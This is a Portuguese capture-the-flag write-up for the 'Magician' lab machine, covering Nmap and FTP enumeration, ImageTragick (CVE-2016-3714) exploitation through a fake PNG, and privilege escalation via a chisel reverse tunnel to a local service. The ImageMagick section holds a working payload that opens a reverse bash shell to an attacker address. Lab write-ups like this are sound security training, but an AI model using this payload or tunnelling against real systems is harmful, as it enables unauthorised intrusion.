






# _**Magician CTF**_


## _**Enumeração**_
Primeiro, vamos começar com um scan <mark>Nmap</mark>
> ```bash
> nmap -p 0-9999 -A -T5 [ip_address]
> ```


Parece que temos duas páginas web e um serviço FTP
Uma tentativa com _login anonimo_ é feita e temos acesso!  



Não é possível verificar por arquivos com _ls_ nem com comandos alternativos  
Vamos nos atentar pela dica, ela fornece um link  
Acessando o link, temos o seguinte  



Parece que teremos que explorar esta CVE  
Vamos então, primeiro, investigar a página web  
Temos um formulário que aceita upload de imagens _.png_ para converter em _.jpg_ na porta **8081**
Procurando por como realizar upload de imagens com conteúdo malicioso, me deparei com [CVE-2016-3714](https://nvd.nist.gov/vuln/detail/CVE-2016-3714)  
Se o servidor usar **ImageMagick** com arquivos controlados por usuários, você pode tentar enviar um arquivo disfarçado de imagem mas que é na verdade um script  
Vamos criar um arquivo para upload
> ```bash
> cat > image.png << EOF
> push graphic-context
> encoding "UTF-8"
> viewbox 0 0 1 1
> affine 1 0 0 1 1 0 0
> push graphic-context
> image Over 0,0 1,1 '|/bin/bash -i > /dev/tcp/[ip_address]/4444 0<&1 2>&1'
> pop graphic-context
> pop graphic-context
> EOF
> ```

Se não estiver conseguindo realizar um _reverse shell_ através do _payload_ acima, tente este daqui: [all the things](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/Picture%20ImageMagick/imagetragik1_payload_imageover_reverse_shell_netcat_fifo.png)  

Enviando a imagem, conseguimos um _shell reverso_  



## _**Escalando privilégios**_
Primeiro, melhorar nosso shell
> ```bash
> python3 -c 'import pty;pty.spawn("/bin/bash");'
> stty raw -echo; fg
> stty rows 24 columns 80
> export TERM=xterm-256color
> ```
Agora, vamos transferir o **LinPeash** para a máquina alvo e executar  
Algo interessante nos chama a atenção  



Parece que temos algum serviço na porta 6666  
Como ele está executando localmente, não é possível visualizar sem _port forwarding_  
Esta técnica é o redirecionamento de tráfego de uma porta específica em um roteador para um dispositivo específico dentro de uma rede local  
Nossa primeira tentativa foi feita através de **SOCAT**, porém, esta ferramenta não estava disponível na máquina-alvo  
Buscando alternativas, encontramos a seguinte: [chisel](https://github.com/jpillora/chisel/releases)  
Primeiro, realizamos o _download_ para a nossa máquina  
Em seguida, transferimos para a máquina-alvo  
Lá, damos permissão de execução e em seguida, digitamos o seguinte
> ```bash
> ./chisel client [ip_address]:5555 R:5554:127.0.0.1:6666
> ```
Em nossa máquina, damos permissão e executamos com o comando abaixo
> ```bash
> ./chisel server --reverse --port 5555
> ```
Conseguimos criar um túnel reverso



Agora, podemos acessar o website em 0.0.0.0:5554  
Parece que o site não está funcionando  
Parte do esforço foi por água abaixo  
Mas tem outra solução  
Voltando para a máquina-alvo, digitamos ```curl -X POST http://127.0.0.1:6666```  
Nisso, temos um formulário pedindo para inserir algo  
Vamos tentar o comando ```curl -X POSt http://127.0.0.1:6666 -d "filename /root/root.txt"```  
Temos uma _string_  
Utilizando **cyberchef**, conseguimos traduzir e temos a última flag!
